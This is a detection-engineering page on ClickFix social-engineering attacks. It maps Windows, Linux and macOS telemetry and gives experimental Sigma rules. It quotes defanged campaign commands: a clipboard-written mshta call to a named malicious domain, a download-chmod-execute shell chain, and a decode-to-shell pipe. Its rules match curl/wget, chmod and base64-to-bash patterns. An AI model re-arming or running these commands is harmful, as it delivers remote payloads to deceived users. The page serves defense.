

# ClickFix execution: attack flow, telemetry, and detection

> **Scope:** the execution phase of the [ClickFix walkthrough](../05-clickfix.md).
> **Validation:** candidate rules are `experimental`; validate them against your telemetry
> before deployment.

This is the page to open after identifying a ClickFix hypothesis. It keeps the social
engineering flow, the OS-specific telemetry, and the candidate detections together. The
[interpreter-exec graph](../../execution/01-script-exec.md) explains the reusable internals
afterward; it is not the primary ClickFix investigation path.

## Attack flow and the primary detection opportunity



The primary detection opportunity is the **user-driven transition from a browser lure into a native execution surface**.
The web page can change its branding, wording, and command. It cannot produce the endpoint
effect without a user opening Run, a launcher, or a terminal and causing an OS execution
event. The clipboard write is valuable when browser telemetry exists, but the native
execution edge is the cross-platform endpoint anchor.

## Telemetry map

| OS | Lure / clipboard evidence | Execution evidence | What is not proven by endpoint process telemetry |
|---|---|---|---|
|  Windows | browser telemetry, proxy, or browser EDR integration | Sysmon EID 1 or Security 4688; process lineage and command line | the user's motivation, or the web page that supplied the copied command |
|  Linux | browser telemetry when available | eBPF exec, Sysmon for Linux process creation, or auditd `EXECVE` | the clipboard action; long shell command lines can degrade at the SIEM tier |
|  macOS | browser telemetry when available | ESF `NOTIFY_EXEC` with Terminal-to-shell lineage and signer context | the clipboard action; Unified Logging is not a reliable exec replacement |

The [Hunt.io campaign](https://hunt.io/blog/apt36-clickfix-campaign-indian-ministry-of-defence)
provides the Windows and Linux branches below. The macOS branch is a separate ClickFix
campaign documented by [Silent Push](https://www.silentpush.com/blog/drivesurge/); it is
included to teach the shared behavior, not to extend the Hunt.io campaign attribution.

## Defanged procedure excerpts → rule writing

These excerpts keep the reported command shape and sequence. Hosts and payload content are
defanged. The rules target the endpoint effect, not a campaign URL, filename, or screenshot.

| Report evidence | Normalized behavior | Telemetry to retain | Rule outcome |
|---|---|---|---|
| Hunt.io's Windows source artifact writes a remote `mshta` invocation to the clipboard. | Interactive Explorer/Run context launches `mshta` with a remote argument. | Process image, parent image, full command line, destination. | Alert on the remote `mshta` branch; tune the interactive parent context. |
| Hunt.io's Linux flow directs the user from a fake CAPTCHA to a copied shell command through the desktop launcher. | User-driven shell launches a download → permission change → local execute chain. | Full shell argv; child process tree; network/file events. | Detect a preserved shell wrapper, otherwise correlate the child events. |
| Silent Push's macOS flow replaces clipboard content with an encoded verification value and tells the user to paste it into Terminal. | Terminal shell decodes text into a shell-execution path. | ESF `NOTIFY_EXEC`, Terminal parent, argv, signer, network retrieval. | Alert on the narrow decode-to-shell branch; investigate the full Terminal session. |

### Windows evidence card: clipboard to `mshta`

<p class="source-link"><strong>Source</strong> · <a href="https://hunt.io/blog/apt36-clickfix-campaign-indian-ministry-of-defence">Hunt.io Windows ClickFix report</a></p>

```javascript
// Defanged: hxxps and [.] keep the reported command non-runnable.
clipboard.writeText('C:\\Windows\\System32\\mshta.exe hxxps://trade4wealth[.]in/admin/assets/css/default/index.php')
```

```text
Report observation     browser copies a remote mshta invocation
Normalized invariant   explorer.exe / interactive session → mshta.exe → remote argument
Endpoint proof         Sysmon EID 1 or Security 4688, plus process/network context
Rule below             Windows ClickFix-Style Remote Mshta From Explorer
```

The rule does not search for the copied string or government theme. It detects the process
event created only after the user completes the ClickFix instruction.

### Linux evidence card: launcher to shell chain

<p class="source-link"><strong>Source</strong> · <a href="https://hunt.io/blog/apt36-clickfix-campaign-indian-ministry-of-defence">Hunt.io Linux CAPTCHA flow</a></p>

```text
# The report gives the path, filename, permission change, and launch sequence.
# This is a defanged reconstruction, not a copied runnable command.
download hxxps://trade4wealth[.]in/admin/assets/js/mapeal.sh -> mapeal.sh
chmod +x mapeal.sh
./mapeal.sh
```

```text
Report observation     copied shell command is pasted through the desktop launcher
Normalized invariant   launcher / terminal → shell → download + execute child sequence
Endpoint proof         eBPF exec is preferred; auditd can lose long wrapper argv
Rule below             Linux ClickFix-Style Shell Download Permission and Execution Chain
```

The report's sample had no established follow-on malicious behavior. The rule therefore
stops at the execution chain and does not claim it detects persistence or C2.

### macOS evidence card: verification text to Terminal shell

<p class="source-link"><strong>Source</strong> · <a href="https://www.silentpush.com/blog/drivesurge/">Silent Push macOS ClickFix flow</a></p>

```text
# Silent Push documents the encoded clipboard-to-Terminal pattern but not a stable payload URL.
browser click -> clipboard receives <encoded verification command>
Terminal -> <decoder> | zsh
```

```text
Report observation     fake verification flow replaces clipboard content for a macOS desktop user
Normalized invariant   Terminal parent → zsh/bash → decode-to-shell execution
Endpoint proof         ESF NOTIFY_EXEC with argv and signing context
Rule below             macOS ClickFix-Style Terminal Base64 Pipe to Bash
```

The important distinction is visibility: the browser-side clipboard action usually is not
an OS process event. The Terminal-to-shell edge is what makes the social-engineering report
actionable for endpoint detection.

## Windows: interactive Run/shell to remote script host

### Threat flow

```text
browser lure → clipboard → user opens Run/shell → explorer.exe or interactive shell
→ mshta / cmd / PowerShell → remote content or child execution
```

Hunt.io observed a government-themed lure whose Windows branch copied an `mshta` command
for the user to run. The durable host evidence is not the Ministry-themed page; it is the
interactive process lineage and the remote execution argument. The rule below deliberately
covers only the `mshta` branch, do not relabel it as coverage for every ClickFix payload.

```yaml
title: Windows ClickFix-Style Remote Mshta From Explorer
id: 2b3fd8ac-90be-4f6b-81ad-22dfad2e32d4
status: experimental
description: Detects mshta launched from the interactive Explorer context with a remote URL, a ClickFix-relevant execution branch.
references:
  - https://hunt.io/blog/apt36-clickfix-campaign-indian-ministry-of-defence
tags:
  - attack.execution
  - attack.t1204.003
  - attack.t1218.005
logsource:
  product: windows
  category: process_creation
detection:
  selection_image:
    Image|endswith: '\\mshta.exe'
  selection_parent:
    ParentImage|endswith: '\\explorer.exe'
  selection_remote:
    CommandLine|contains:
      - 'http://'
      - 'https://'
  condition: selection_image and selection_parent and selection_remote
falsepositives:
  - legacy line-of-business applications that intentionally launch remote HTA content
level: high
```

**Triage:** retain the command line, parent/session/user, destination, and immediate
children. A browser process directly spawning a shell or script host is a stronger
variation of the same hunt, but requires its own parent-image rule.

## Linux: launcher/terminal to shell execution

### Threat flow

```text
browser lure → clipboard → user opens desktop launcher or terminal
→ shell executes copied download / permission-change / launch chain → child processes
```

Hunt.io's Linux flow instructed the user to paste a copied command through the desktop
launcher. Its analyzed sample had no observed follow-on malicious behavior. Therefore the
correct detector is the **user-driven shell chain**, not a claim of persistence, C2, or
malware execution that the source did not establish.

```yaml
title: Linux ClickFix-Style Shell Download Permission and Execution Chain
id: 48b5c27d-5d92-4f53-b57a-45548b81a95f
status: experimental
description: Detects a shell wrapper that combines remote retrieval, chmod plus execute, and local script launch.
references:
  - https://hunt.io/blog/apt36-clickfix-campaign-indian-ministry-of-defence
tags:
  - attack.execution
  - attack.t1204.003
  - attack.t1059.004
logsource:
  product: linux
  category: process_creation
detection:
  selection_shell:
    Image|endswith:
      - '/sh'
      - '/bash'
  selection_download:
    CommandLine|contains:
      - 'curl '
      - 'wget '
  selection_permission:
    CommandLine|contains: 'chmod +x'
  selection_execute:
    CommandLine|contains: './'
  condition: selection_shell and selection_download and selection_permission and selection_execute
falsepositives:
  - installer, CI, or developer bootstrap wrappers that download and run a local script
level: high
```

**Collection caveat:** this single-event rule only works when the launcher preserves the
whole command in a shell-wrapper `argv`. A pasted interactive command often becomes
separate `curl`, `chmod`, and child-exec events instead. In that case, use a stateful
EDR correlation keyed by process tree and short time window; portable, single-event Sigma
cannot prove the browser-to-clipboard origin.

## macOS: Terminal to shell execution

### Threat flow

```text
browser lure → clipboard → user opens Terminal → zsh/bash processes copied text
→ retrieval / script execution / cleanup
```

Silent Push documented a DriveSurge macOS ClickFix branch that profiled for desktop macOS,
replaced the clipboard, and directed the victim to Terminal. Its command was wrapped as a
verification value and decoded into a shell chain. The best endpoint source is ESF
`NOTIFY_EXEC` with full argv and signing context; capture the terminal parent and every
shell child before tuning on command content.

```yaml
title: macOS ClickFix-Style Terminal Base64 Pipe to Bash
id: 6a9b96f6-0910-4a77-a8a2-ddc126449ed5
status: experimental
description: Detects an interactive Terminal shell passing base64-decoded text directly to bash, consistent with a documented ClickFix branch.
references:
  - https://www.silentpush.com/blog/drivesurge/
tags:
  - attack.execution
  - attack.t1204.003
  - attack.t1059.004
logsource:
  product: macos
  category: process_creation
detection:
  selection_shell:
    Image|endswith:
      - '/zsh'
      - '/bash'
  selection_terminal:
    ParentImage|endswith: '/Terminal'
  selection_decode:
    CommandLine|contains|all:
      - 'base64'
      - '| bash'
  condition: selection_shell and selection_terminal and selection_decode
falsepositives:
  - developer or administrator bootstrap commands that intentionally decode text into bash
level: high
```

**Collection caveat:** this is an ESF/EDR-tier rule. The exact decoded command may not
appear in a process event, and the browser clipboard write is normally outside OS process
telemetry. Pair the event with the Terminal session, source process signer, network
retrieval, and any file cleanup before escalating.

## What links where

| Reader question | Correct next page |
|---|---|
| “Does this ClickFix sequence match the threat?” | This page: attack flow, telemetry, and rules stay together. |
| “Why is an interpreter exec the durable cut?” | [Interpreter exec](../../execution/01-script-exec.md) |
| “Which source claimed this OS branch?” | [Hunt.io](https://hunt.io/blog/apt36-clickfix-campaign-indian-ministry-of-defence) for Windows/Linux; [Silent Push](https://www.silentpush.com/blog/drivesurge/) for macOS. |
